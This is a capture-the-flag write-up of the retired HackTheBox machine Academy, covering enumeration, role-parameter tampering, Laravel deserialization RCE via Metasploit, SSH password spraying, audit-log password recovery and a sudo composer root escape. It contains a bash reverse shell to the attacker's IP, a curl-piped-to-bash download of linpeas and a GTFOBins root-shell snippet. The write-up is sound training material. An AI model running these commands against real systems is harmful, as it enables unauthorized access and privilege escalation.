


# Academy

This is the write-up for the box Academy that got retired at the 27th February 2021.
My IP address was 10.10.14.14 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.215    academy.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/academy.nmap 10.10.10.215
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 c0:90:a3:d8:35:25:6f:fa:33:06:cf:80:13:a0:a5:53 (RSA)
|   256 2a:d5:4b:d0:46:f0:ed:c9:3c:8d:f6:5d:ab:ae:77:96 (ECDSA)
|_  256 e1:64:14:c3:cc:51:b2:3b:a6:28:a7:b1:ae:5f:45:35 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://academy.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The website on port 80 automatically forwards to the hostname _academy.htb_.

## Checking HTTP (Port 80)

The webpage has a login page on _login.php_ and a register page on _register.php_.
After registering a user and login in, it looks like a replica of the **HackTheBox Academy** website, but none of the links do anything.

Lets search for hidden directories and PHP files with **Gobuster**:
```
gobuster -u http://academy.htb dir -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -x php -b 404,403
```

It finds the files _config.php_, which is empty and has no HTML source code and _admin.php_ which forwards to another login page.

When registering a user, there is another parameter _roleid_ set to _0_:
```
POST /register.php HTTP/1.1
Host: academy.htb
(...)

uid=newuser2&password=Pass123&confirm=Pass123&roleid=0
```

By changing it to _1_, it is possible to login into _admin.php_ with the title _"Academy Launch Planner"_ where one task is pending:



The subdomain _dev-staging-01.academy.htb_ has to be put into our _/etc/hosts_ file to access it.
It forwards to a page with errors:
```
UnexpectedValueException
The stream or file "/var/www/html/htb-academy-dev-01/storage/logs/laravel.log" could not be opened in append mode: failed to open stream: Permission denied
```



This error tells us, that the web service uses the **Laravel framework** for PHP.
In the environment variables is a key and login information for the database:
```
APP_KEY: "base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0="

DB_DATABASE: "homestead"
DB_USERNAME: "homestead"
DB_PASSWORD: "secret"
```

Searching for vulnerabilities in **Laravel**:
```
searchsploit laravel

PHP Laravel Framework 5.5.40 / 5.6.x < 5.6.30 - token Unserialize Remote Command Execution (Metasploit)
```

Using **Metasploit** to exploit the vulnerability:
```
msf6 > use exploit/unix/http/laravel_token_unserialize_exec

msf6 exploit(unix/http/laravel_token_unserialize_exec) > set LHOST tun0
msf6 exploit(unix/http/laravel_token_unserialize_exec) > set LPORT 9001

msf6 exploit(unix/http/laravel_token_unserialize_exec) > set RHOSTS dev-staging-01.academy.htb
msf6 exploit(unix/http/laravel_token_unserialize_exec) > set APP_KEY dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
msf6 exploit(unix/http/laravel_token_unserialize_exec) > set VHOST dev-staging-01.academy.htb

msf6 exploit(unix/http/laravel_token_unserialize_exec) > exploit
```

After sending the payload, it will start a command shell session as the user _www-data_.

As this shell is limited, it is recommended to start a proper reverse shell:
```
bash -c 'bash -i >& /dev/tcp/10.10.14.14/9002 0>&1'
```

After sending the command, the listener on my IP and port 9002 starts a reverse shell as the user _www-data_.

## Privilege Escalation

In the directory _/var/www/html/htb-academy-dev-01_ is the _.env_ file with the credentials from the error message, but these do not work on **MySQL**:
```
DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=homestead
DB_USERNAME=homestead
DB_PASSWORD=secret
```

In the directory _/var/www/html/academy_ is a different _.env_ file with credentials, that also do not work on the database:
```
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=academy
DB_USERNAME=dev
DB_PASSWORD=mySup3rP4s5w0rd!!
```

There are six folders with _/home_ directories and all the users exist in _/etc/passwd_ so lets create a userlist and test the password for these users:
```
cat /etc/passwd | grep sh$ | awk -F: '{print $1}'
```

Brute-Forcing SSH for the list of users:
```
crackmapexec ssh 10.10.10.215 -u academy_users.list -p 'mySup3rP4s5w0rd!!' --continue-on-success
```
```
SSH         10.10.10.215    22     10.10.10.215     [+] cry0l1t3:mySup3rP4s5w0rd!!
```

The password is working successfully for the user _cry0l1t3_:
```
ssh cry0l1t3@10.10.10.215
```

### Privilege Escalation 2

To get an attack surface on the box, it is recommended to run any **Linux Enumeration Script**:
```
curl 10.10.14.14/linpeas.sh | bash
```

The user _cry0l1t3_ is in the _adm_ group, with which it is possible to read log files.
It has **Auditd** enabled and writes logs to _/var/log/audit_.

These log files can be analyzed with `aureport` to get a summary of all logged information:
```
aureport

(...)
Number of terminals: 10
```

Checking the logs for the terminal sessions:
```
aureport --tty

TTY Report
===============================================
# date time event auid term sess comm data
===============================================
Error opening config file (Permission denied)
NOTE - using built-in logs: /var/log/audit/audit.log
1. 08/12/2020 02:28:10 83 0 ? 1 sh "su mrb3n",<nl>
2. 08/12/2020 02:28:13 84 0 ? 1 su "mrb3n_Ac@d3my!",<nl>
(...)
```

In this log file is a password that was used for the user _mrb3n_.
```
su mrb3n
```

### Privilege Escalation to root

By checking the `sudo` permissions of the user _mrb3n_, we see that `composer` can be executed with root privileges:
```
sudo -l

(...)
User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
```

The binary `composer` has an entry on [GTFOBins](https://gtfobins.github.io/gtfobins/composer/#sudo) to escalate privileges to root:
```bash
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
```

After running the commands, a shell as root is started!
